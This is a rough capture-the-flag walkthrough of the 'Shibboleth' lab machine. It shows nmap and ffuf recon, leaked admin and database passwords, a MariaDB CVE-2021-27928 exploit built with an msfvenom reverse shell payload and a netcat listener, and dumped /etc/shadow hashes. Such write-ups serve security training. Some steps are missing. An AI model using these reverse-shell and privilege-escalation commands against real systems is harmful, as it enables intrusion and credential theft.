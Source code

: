 ![image](PWND/Shibboleth.png)

# Nmap
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
add the domain to /etc/hosts
![image](https://user-images.githubusercontent.com/129129988/228408156-2cfb25fa-fd97-4be8-b10d-62fce761b5d6.png)

Access the website:
![image](https://user-images.githubusercontent.com/129129988/228408196-bec55885-b821-43db-8500-5e660e190b0a.png)

checking vhosts 

ffuf -u http://shibboleth.htb/ -H "HOST: FUZZ.shibboleth.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-med
ium-words.txt -mc 200

![image](https://user-images.githubusercontent.com/129129988/228408242-9838da91-4db5-4948-a084-2605d21aab20.png)


 found monitor monitoring Monitor adding that to /etc/hosts
 
![image](https://user-images.githubusercontent.com/129129988/228408260-b2dbdd07-d353-4599-96ce-babad3060452.png)

 
 Team:

 walter white 
 chief executirve officer 
 
 sarah jhonson
 product Manager 
  
  william anderson 
  CTO
  
  Amanda Jepson 
  accountant
  
  
 loggin ?????
 
 
 Administrator:ilovepumkinpie1
 
 ![image](https://user-images.githubusercontent.com/129129988/228408291-a4fbc09b-2de5-4f0e-9998-9839f6be621f.png)
 
 after doing so you will get a shell on the port you specifed. 
 
 ![image](https://user-images.githubusercontent.com/129129988/228408338-b6724034-32e6-47eb-a118-9c178eaa7dbe.png)

 we cant test for sudo -l 
 
 ![image](https://user-images.githubusercontent.com/129129988/228408366-67e9ef4a-f506-47f3-baa9-32766d1802aa.png)
 ![image](https://user-images.githubusercontent.com/129129988/228408383-4d18c3b5-3064-43f9-9693-7be60ae2dd58.png)
  
 we can now access my sql db 
 
 ![image](https://user-images.githubusercontent.com/129129988/228408417-35066fa4-312d-4b15-8e05-bb7b64b55147.png)


 
checking version on mariadb 

database password: bloooarskybluh


https://github.com/Al1ex/CVE-2021-27928
found an exploit for 10.3.25

Step 1: on kali generate payload.
	sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.181 LPORT=6687 -f elf-so -o pwnd.so
	
Step 2: Start a listener
	nc -lnvp 6687

Step 3: Via Dumpfile
	python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
	mysql -u <user> -p -h <ip>
	SELECT UNHEX('PYTHON_OUTPUT') into dumpfile '/tmp/CVE-2021-27928.so';

Step 4: Execute the Payload
	mysql -u <user> -p -h <ip>
	SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";

![image](https://user-images.githubusercontent.com/129129988/228408466-b8bab919-7034-424c-a537-0ffffb243e49.png)

cat /etc/shadow 

root:$6$HeRqkRJL9pttp4EY$TBE4vztPy9lOaywPhVdhQHwiPa09s7RJw418EMjmS0RKea/1QBwLqTHK84ato5yDBF59dMvSNbQQ1pVy.K1dp.:18741:0:99999:7::: 

PasswordHash: For PDF in ~/Downloads


ipmi-svc:$6$rnKUQQE9QwT1bVVt$7JWeqxtaYfMZa0EO0clguLK4Fh3N/IN6djXUl2M2MQ5PHVmQ1vLwlxnNMVhn7y/oEpjltVyvbw1wbBBZ//apV.:18925:0:99999:7::: 


 
